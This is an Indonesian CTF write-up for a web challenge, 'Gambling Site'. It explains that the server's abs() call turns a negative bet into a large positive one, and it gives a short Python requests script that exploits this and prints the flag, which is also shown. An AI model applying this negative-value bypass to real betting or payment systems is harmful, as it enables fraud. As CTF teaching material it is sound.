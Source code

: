 <h1><b>Gambling Site</b></h1>
<pre>
Dicoba nih Website Gambling mimin h3h3

Challenge --> <a href='https://web.ctf.rasyidmf.com/chal17/'>URL</a>
</pre>
<h3><b>Solution</b></h3>
<p>Kelemahan pada challenge sepertinya menggunakan fungsi abs() yang akan menconvert nilai negative ke positif contoh</p>
<pre>
abs(1) = 1
abs(-1) = 1
1 + abs(-1) = 2
abs(-5000) = 5000
</pre>
<p align='justify'>Jadi setipa nilai yang di inputkan akan menjadi bilangan positif, maka input jumlah bet pada challenge -2000000 hingga abs(-2000000) menjadi 2000000. Dan Flag didapatkan</p>

```python
import requests

bil = int(input('Input Bilangan : '))
data = {'angka':'1234',
        'bet':bil}
s = requests.Session()
res = s.post('https://web.ctf.rasyidmf.com/chal17/',data)
ress = s.post('https://web.ctf.rasyidmf.com/chal17/').text
print(ress.split('<br>')[0]) #CTFR{g4mbl1ng_1tu_h4r3m}

```
<h3><b>Flag</b></h3>
<pre>
CTFR{g4mbl1ng_1tu_h4r3m}
</pre>
